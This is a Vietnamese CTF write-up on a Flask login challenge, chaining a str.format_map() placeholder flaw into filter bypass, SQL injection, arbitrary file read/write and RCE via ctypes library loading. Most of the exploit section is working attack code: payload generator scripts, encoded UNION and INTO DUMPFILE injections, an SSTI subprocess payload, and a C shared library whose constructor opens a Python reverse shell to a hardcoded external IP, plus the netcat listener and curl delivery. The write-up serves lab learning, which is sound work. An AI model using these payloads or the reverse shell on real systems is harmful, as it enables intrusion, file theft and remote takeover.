

Đây thật sự là một challenge mà mình thích nhất trong đợt training :)) Không chỉ vì exploit chain hay giúp mình vận dụng được nhiều kĩ năng mà giao diện web cũng gợi mình khá nhiều liên tưởng😄


# TL;DR

Challenge này là một exploit chain khá thú vị, nơi những lỗi tưởng chừng không liên quan lại có thể kết hợp với nhau để dẫn đến **Remote Code Execution (RCE)**.

Mọi thứ bắt đầu từ một **Business Logic Flaw** trong cơ chế xử lý placeholder của `SQLQueryBuilder`. Bằng cách lợi dụng `str.format_map()` và khả năng truy cập attribute của Python, mình có thể bypass input validation và biến nó thành **SQL Injection**.

Từ đây, mình tận dụng **Error-based SQLi** để đọc file và `INTO DUMPFILE` để ghi một malicious shared library (`.so`) lên server. Nhưng chỉ ghi file thôi thì chưa đủ để có RCE...

Mảnh ghép cuối cùng chính là **Python Format String Gadget kết hợp với** **ctypes**. Dù `str.format_map()` không hỗ trợ gọi hàm trực tiếp, mình vẫn có thể lợi dụng cơ chế `__getattr__` của `ctypes.cdll` để load shared library vừa upload, kích hoạt constructor của nó và thực thi mã tùy ý trên server! 😳

**Exploit Chain:**

`Business Logic Flaw → Python Format String Gadget → Input Validation Bypass → SQL Injection → Arbitrary File Read/Write → ctypes Library Loading → RCE 🚀`

# 1. Reconnaissance!!

Mình thử spawn Instance mà recon qua thì dường như challenge chỉ có một chức năng duy nhất là đăng nhập:
Nếu đăng nhập sai thì sẽ trả về 'Invalid Credentials':


Nếu có kí tự lạ thì sẽ trả về thông báo cấm:


Mình xem đến source code:
Đầu tiên là **Dockerfile**, mình thấy các setup thông thường, flag được để ở /root/flag.txt, quyền 400 nên chỉ root được đọc:


Chuyển sang **start.sh**:


Logic của app được thể hiện trong **app.py**:



Ta thấy sự xuất hiện của class SQLQueryBuilder và InputValidator trong hàm authenticate:


Hàm InputValidate lưu cặp placeholder và giá trị tương ứng cùng với logic kiểm tra xem có thỏa mãn các yêu cầu bảo mật không, đáng chú ý là một lúc sau mình mới để ý có một typo nho nhỏ ở danh sách các kí tự cấm 😋


Đến với SQLQueryBuilder, đây mới là phần thú vị nhất:


Điểm thú vị nằm ở vòng lặp While:


Logic nhìn qua có thể thấy khá bình thường. Nhưng đọc kĩ chúng ta có thể thấy một điều rất bất thường.
Bình thường nếu một dev bình thường muốn code để thay thế từ:

```
"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

thành

```
"SELECT * FROM users WHERE username = '<user input>' AND password = '<user input>'"
```

thì chỉ cần đơn giản là dùng *Prepared Statement* cho an toàn và đơn giản;
hoặc nếu muốn đổi gió có thể dùng các hàm replace có sẵn hay là chạy vòng lặp từ đầu đến cuối tìm xem chỗ nào có dạng { ... } thì thay giá trị vào (đương nhiên phải validate kĩ input của user )

Điều bất thường ở đây là ứng dụng đang chạy một vòng lặp While để kiểm tra liên tục xem còn chỗ nào có { ... } không thì cứ tiếp tục thay vào:

```python
    def build_query(self):
        """Build the final SQL query by replacing placeholders."""
        query = self.template
        self.placeholders = self.extract_placeholders(query)
        
        while self.placeholders:
            current_key = self.placeholders[0]
            replacement_map = dict.fromkeys(
                self.placeholders, 
                lambda _, key: f"{{{key}}}"
            )
            
            for placeholder_key in self.placeholders:
                if placeholder_key in self.validators:
                    if current_key == placeholder_key:
                        replacement_map[placeholder_key] = self.validators[placeholder_key].get_validated_value()
                else:
                    replacement_map[placeholder_key] = InputValidator
                    
            query = query.format_map(
                type('FormatDict', (), {
                    '__getitem__': lambda _, key: (
                        replacement_map[key] if isinstance(replacement_map[key], str) 
                        else replacement_map[key]("", key)
                    )
                })()
            )
            
            self.placeholders = self.extract_placeholders(query)
            
```

Để cho các bạn dễ hình dung thì giả sử mình nhập vào form đăng nhập một cách dị dị như kiểu:

username :  {abcdxyz}
password:  {spamspamspam}

Thì từ:
```
"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

Ứng dụng sẽ chạy vòng While và thay thế thành:
```
"SELECT * FROM users WHERE username = '{abcdxyz}' AND password = '{spamspamspam}'"
```

Sau đó, khi thấy vẫn còn placeholder dạng { ... } thì lại chạy tiếp vòng lặp và do không có value tương ứng nên sẽ gán thành rỗng và query trở thành:


Thật ra cái này trông có vẻ vô hại thật, vì chúng ta chưa thể kiểm soát được giá trị sẽ thay thế tương ứng,... hoặc là... có thể!?

Nhìn lại Logic vòng While một chút, trong đoạn này:
```python
for placeholder_key in self.placeholders:
                if placeholder_key in self.validators:
                    if current_key == placeholder_key:
                        replacement_map[placeholder_key] = self.validators[placeholder_key].get_validated_value()
                else:
                    replacement_map[placeholder_key] = InputValidator
                    
            query = query.format_map(
                type('FormatDict', (), {
                    '__getitem__': lambda _, key: (
                        replacement_map[key] if isinstance(replacement_map[key], str) 
                        else replacement_map[key]("", key)
                    )
                })()
            )
            
            self.placeholders = self.extract_placeholders(query)
```

Logic của nó kiểu:
*Nếu có key nào đầu vào trùng với placeholder đang có trong query => Thay giá trị ứng với key đó vào*

*Nếu không =>  Gán value ứng với key đó thành class InputValidator !?*

*Với map vừa tạo được dùng str.format_map() để thay thế*

Tìm hiểu thêm về str.format_map(), ta thấy nó có cơ chế tương tự với str.format():
Bạn đọc thêm ở: https://www.programiz.com/python-programming/methods/string/format_map


Tìm hiểu về str.format() ta có thể thấy hàm này có một vài tính năng rất thú vị và đáng để tìm hiểu:
Bạn đọc thêm tại: https://docs.python.org/3/library/string.html


Nhìn thì phức tạp nhưng bạn có thể xem phần ví dụ bên dưới:


Bạn có thể thấy, thật tuyệt vời khi chúng ta có thể làm một vài điều khá thù vị như kiểu truy cập attribute, gọi các hàm str(), repr(),.. của instance.

Điều này không khác gì mỏ vàng vì kết hợp với phân tích ở trước, chúng ta có thể bypass hoàn toàn bộ lọc bằng cách dùng chính list **FORBIDDEN_CHARACTERS** trong class **Input Validator** để bypass và chèn được kí tự bị cấm vào query của mình, và có được lỗ hỏng đầu tiên - ***SQL injection***:

**Payload:**
username : admin
password : `
`{a}{a.FORBIDDEN_CHARACTERS[5]}{a.FORBIDDEN_CHARACTERS[3]}OR{a.FORBIDDEN_CHARACTERS[3]}1=1{a.FORBIDDEN_CHARACTERS[3]}{a.FORBIDDEN_CHARACTERS[10]}{a.FORBIDDEN_CHARACTERS[10]}{a.FORBIDDEN_CHARACTERS[3]}{a.FORBIDDEN_CHARACTERS[10]}`

(Sau khi vòng While chạy xong thì password sẽ thành` ' OR 1=1 -- -`)


Tuyệt vời!!! Mình đã đăng nhập được với tài khoản admin mặc dù vào thì chỉ hiện ra trang 404 nhưng cũng đã giúp mình xác nhận được SQL injection !!

Một script đơn giản để bạn có thể tự tạo payload bất kì cho riêng mình:
```python
FORBIDDEN = [
    '"', '(', ')', ' ', ',', "'",
    '\\', '/', '*', '+%', '-', ';', '#'
]

def bypass(payload, key="a"):
    result = ""

    for char in payload:
        if char in FORBIDDEN:
            index = FORBIDDEN.index(char)
            result += f"{{{key}.FORBIDDEN_CHARACTERS[{index}]}}"
        else:
            result += char

    return f"{{{key}}}" + result


if __name__ == "__main__":
    while True:
        payload = input("Nhap payload ban can bypass!!!! =>  ")
        print(bypass(payload))
        print("="*10)
        print("\n")

```


Oke, giờ đã có SQL injection, trên lý thuyết chúng ta có thể đọc toàn bộ Database rồi, nhưng dường như Database của app không có gì ngoài account admin:))


Lúc này nhìn vào source code ta còn thấy App còn in thẳng lỗi database nếu query bị lỗi:
```python
        except mysql.connector.Error as database_error:
            flash(f"Database query failed: {database_error}", 'error')
```

Không còn gì tuyệt vời hơn khi chúng ta có thể tận dụng Error-based SQL injection và đọc mọi file mình muốn:

**Payload:**
username : admin
password : 
```
{a}x{a.FORBIDDEN_CHARACTERS[5]}{a.FORBIDDEN_CHARACTERS[3]}UNION{a.FORBIDDEN_CHARACTERS[3]}SELECT{a.FORBIDDEN_CHARACTERS[3]}1{a.FORBIDDEN_CHARACTERS[4]}EXTRACTVALUE{a.FORBIDDEN_CHARACTERS[1]}1{a.FORBIDDEN_CHARACTERS[4]}CONCAT{a.FORBIDDEN_CHARACTERS[1]}0x7e{a.FORBIDDEN_CHARACTERS[4]}LOAD_FILE{a.FORBIDDEN_CHARACTERS[1]}{a.FORBIDDEN_CHARACTERS[5]}{a.FORBIDDEN_CHARACTERS[7]}etc{a.FORBIDDEN_CHARACTERS[7]}passwd{a.FORBIDDEN_CHARACTERS[5]}{a.FORBIDDEN_CHARACTERS[2]}{a.FORBIDDEN_CHARACTERS[4]}0x7e{a.FORBIDDEN_CHARACTERS[2]}{a.FORBIDDEN_CHARACTERS[2]}{a.FORBIDDEN_CHARACTERS[4]}3{a.FORBIDDEN_CHARACTERS[10]}{a.FORBIDDEN_CHARACTERS[10]}{a.FORBIDDEN_CHARACTERS[3]}{a.FORBIDDEN_CHARACTERS[10]}
```
(Dịch ra: x' UNION SELECT 1,EXTRACTVALUE(1,CONCAT(0x7e,LOAD_FILE('/etc/passwd'),0x7e)),3-- -)


Ồ, vậy là có đọc file rồi, giờ thì mình thử viết file xem sao nhỉ?
**Payload:**
username : admin
password : 
```
x' AND 1=0 UNION SELECT 'Hello World!!!','','' INTO DUMPFILE '/var/run/mysqld/hehe.txt'-- -
```

Sau đó thử đọc file:
```
x' UNION SELECT 1,EXTRACTVALUE(1,CONCAT(0x7e,LOAD_FILE('/var/run/mysqld/hehe.txt'),0x7e)),3-- -
```


Quá đã!!! Càng ngày càng gần với Flag rồi!!

Vấn đề đặt ra bây giờ là flag đang được giấu tên file nên mình không thể nào đọc được flag mà không có RCE được (hoặc là do mình chưa nghĩ ra cách nào khác) nên giờ lại phải tìm cách nâng lên RCE 😭

Lúc này nhiều bạn có thể nghĩ đến việc chỉ đơn giản là vẫn dựa vào gadget Format string để có thể 'leo' để có được lên các hàm nguy hiểm để thực thi mã độc như ý tưởng đã có giống SSTI, bằng các payload cực kì sáng tạo kiểu: 
```
username : { password.__class__.mro()[1].__subclasses__()[396]('echo HIII',shell=True,stdout=-1).communicate()[0].strip() }
password : abc
```
đúng không? Mình cũng nghĩ vậy... Nhưng đáng tiếc là format_map() sẽ không thể truy cập đến method mà sẽ luôn coi cái đang được hướng tới là một attribute:

(Để hiểu hơn về payload trên bạn có thể đọc tại: https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html)


Lúc này mình mới nhận ra một điểm là ở phần chèn thư viện có 2 thư viện chèn mà không được dùng tí nào:


Trong đó có cái ctypes cực kì đáng nghi :)) ngay phần cảnh báo trên đầu của doc cũng nói luôn:
Bạn đọc thêm tại: https://docs.python.org/3/library/ctypes.html


Nhìn qua source code của cái này ta thấy có cdll là một object được tạo ra từ class LibraryLoader:


Điểm đặc biệt là class này có thuộc tính` __getattr__ ` sẽ gọi ngược lại lên CDLL rồi cuối cùng đi được đến `_load_library` và gọi đến `_dlopen`:


Nếu không có sức mạnh khủng khiếp của AI thì mình không bao giờ tìm được các Gadget ảo ma thế này mất😭

Kết hợp thêm với 2 dữ kiện chúng ta đã có ở trước:
- Viết/đọc file tùy ý
-  Format string syntax trong str.format_map()

Chúng ta có được RCE bằng cách:
1) Nạp một file .so độc hại lên server bằng cách ghi file thông qua SQL injection.
2) Thực thi file vừa nạp vào thông qua Format string syntax trong str.format_map() qua thư viện ctypes được import vào.
3) Lúc này mặc dù chỉ gọi được đến thuộc tính` __getattr__` nhưng đủ để chúng ta load được file shared object của mình => Chỉ cần để một đoạn mã tự thực thi khi file .so của chúng ta được load thì chúng ta sẽ exploit thành công.

# 2. Exploitttttttt !!!!!

Mình định thực thi mã trên server và bắt Reverse shell về trên VPS của mình cho tiện. Mình test trên server thì thấy không có nc hay ncat nên mình dùng python:
Payload mình lấy ở: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools
Bạn có thể dùng công cụ tự động tạo payload Reverse shell ở: https://www.revshells.com/


Payload mình dùng: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IPv4>",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`


Oke, thế là mình sẽ tạo ngay cho bản thân một file .so tự động thự thi mã trên khi được load như sau:
```C
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor))
static void init(void) {
    printf("*****HELLO WORLD!******\n");
    system("echo ********SYSTEM EXECUTED!!******\n");
    system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"104.64.219.249\",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'");
}
```
Sau đó compile mã C trên bằng GCC trên Linux:
```bash
gcc -shared -fPIC -o hello.so hello.c
```

Chúng ta được file hello.so.
Sau đó mình dùng script nho nhỏ sau để tạo payload giúp ghi file hello.so lên server :
(Ở đây mình đổi tên thành hello123.so do mình đã nạp hello.so lên server Docker từ trước, bởi mình test thì thấy nếu các lần sau nạp lên trùng tên thì sẽ bị cache)
```python

from pathlib import Path

data = Path("hello123.so").read_bytes()
hex_data = data.hex()

payload = (
    "x' AND 1=0 UNION SELECT "
    f"0x{hex_data},'','' "
    "INTO DUMPFILE '/var/run/mysqld/hello123.so'-- -"
)

Path("payload.txt").write_text(payload)

print("SO bytes:", len(data))
print("SQL payload characters:", len(payload))
print("Saved to payload.txt")

```

Kết quả chúng ta thu được payload.txt là payload sẽ đẩy lên server. Nhưng cần một bước bypass nữa để có thể thành payload hoàn chỉnh, mình dùng script:
```python
FORBIDDEN = [
    '"', '(', ')', ' ', ',', "'",
    '\\', '/', '*', '+%', '-', ';', '#'
]

def bypass(payload, key="a"):
    result = ""

    for char in payload:
        if char in FORBIDDEN:
            index = FORBIDDEN.index(char)
            result += f"{{{key}.FORBIDDEN_CHARACTERS[{index}]}}"
        else:
            result += char

    return f"{{{key}}}" + result


if __name__ == "__main__":
    with open("payload.txt", "r", encoding="utf-8") as f:
        payload = f.read()
        payload = "".join(payload.splitlines())
    payload = bypass(payload)
    with open("output.txt", "w", encoding="utf-8") as f:
        f.write(payload)
        print("Saved to output.txt")
    print("\n")

```

Công việc còn lại của chúng ta đơn giản là gửi payload lên:
```bash
curl 127.0.0.1:5002 -X POST --data-urlencode "username=admin" --data-urlencode "password@output.txt"
```

Nghe reverse shell:
```bash
nc -lvnp 4242
```

Sau đó load thư viện này vào bằng cách gửi `{{a.__class__.__init__.__globals__[ctypes].cdll[/var/run/mysqld/hello2.so]}}{{a}}{a}`
```
username : admin
password : {{a.__class__.__init__.__globals__[ctypes].cdll[{a.FORBIDDEN_CHARACTERS[7]}var{a.FORBIDDEN_CHARACTERS[7]}run{a.FORBIDDEN_CHARACTERS[7]}mysqld{a.FORBIDDEN_CHARACTERS[7]}hello123.so]}}{{a}}{a}
```

![[Attachments/Pasted image 20261119132130.png]]